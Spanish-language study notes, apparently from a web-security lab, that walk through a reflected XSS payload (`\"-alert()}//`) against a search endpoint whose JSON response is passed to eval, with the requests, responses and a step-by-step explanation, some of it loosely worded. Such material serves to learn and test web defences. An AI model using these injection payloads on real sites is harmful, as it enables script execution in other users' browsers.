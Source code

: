 ==Payload== -> `\"-alert()}//`
SI hacemos la petición asíncrona con texto normal : 

GET /search-results?search=regerg
```json
{"results":[],"searchTerm":"regerg"}
```

GET /search-results?search=\\"-alert()}//
```json
{"results":[],"searchTerm":"\"-alert()}//"}
{"results":[],"searchTerm":""-alert()}//"}
```

SI le pasamos una doble comilla , esta se escapa con \\", podemos escaparla con \\\\"

La razón por la cual `"{"results":[],"searchTerm":""-alert()}//"}` funciona y es interpretado correctamente por JavaScript se debe a la manera en que `eval` procesa el código y cómo la sintaxis de JavaScript trata las cadenas, los operadores y los comentarios.

### Análisis del código:

1. **Estructura JSON**:
   ```json
   {"results":[],"searchTerm":""-alert()}//}
   ```
   Este es un JSON que contiene un array vacío `results` y una propiedad `searchTerm`.

2. **Parte conflictiva**:
   - `"searchTerm": ""-alert()}//"`
   - Aquí, `"searchTerm": ""` es una cadena vacía asignada a `searchTerm`.
   - Luego, `-alert()` es un intento de realizar una operación matemática (resta) con la función `alert()`.
   - Finalmente, `}//` es un comentario de una sola línea en JavaScript.

### Cómo lo procesa `eval`:

1. **Primero**: `eval` evalúa el JSON como un string de código JavaScript.
2. **Cadena vacía**: 
   ```javascript
   "searchTerm": ""
   ```
   Esto asigna una cadena vacía a `searchTerm`.
   
3. **Operación de resta**:
   ```javascript
   -alert()
   ```
   Aquí, el operador de resta intenta aplicar `-` a lo que retorna `alert()`. En JavaScript, `alert()` retorna `undefined`, por lo que el resultado sería `NaN` (Not a Number) porque no puedes restar `undefined`.

4. **Comentarios en JavaScript**:
   ```javascript
   // Esto es un comentario
   ```
   Después de la función `alert()`, el resto del código `}//` es tratado como un comentario, por lo que es ignorado.
